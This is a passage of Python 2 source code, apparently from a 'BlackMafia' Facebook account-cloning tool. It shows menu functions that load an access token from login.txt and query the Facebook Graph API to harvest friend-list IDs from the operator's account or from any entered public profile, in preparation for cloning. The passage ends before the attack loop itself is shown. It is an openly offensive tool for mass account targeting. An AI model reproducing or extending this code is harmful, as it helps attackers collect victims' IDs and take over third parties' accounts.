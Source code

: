
def pilih():
	unikers = raw_input("\n\033[1;91mChoose an Option>>> \033[1;97m")
	if unikers =="":
		print "\x1b[1;91mFill in correctly"
		pilih()
	elif unikers =="1":
		super()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih()


def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\033[1;96m--\033[1;92m> \033[1;92m1.\x1b[1;91mClone From Friend List..."
	print "\033[1;96m--\033[1;92m> \033[1;92m2.\x1b[1;91mClone From Indian ID Link Public Frendlist..."
	print "\033[1;96m--\033[1;91m> \033[1;91m0.\033[1;94mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;91mChoose an Option>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤\033[1;96mBlackMafia\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤"
		jalan('\033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;96m[♡] \033[1;92mEnter ID link\033[1;93m: \033[1;97m")
		print "\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤\033[1;96mBlackMafia\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;92mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;94mBack\033[1;96m]")
			super()
		print"\033[1;93mGetting IDs\033[1;93m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)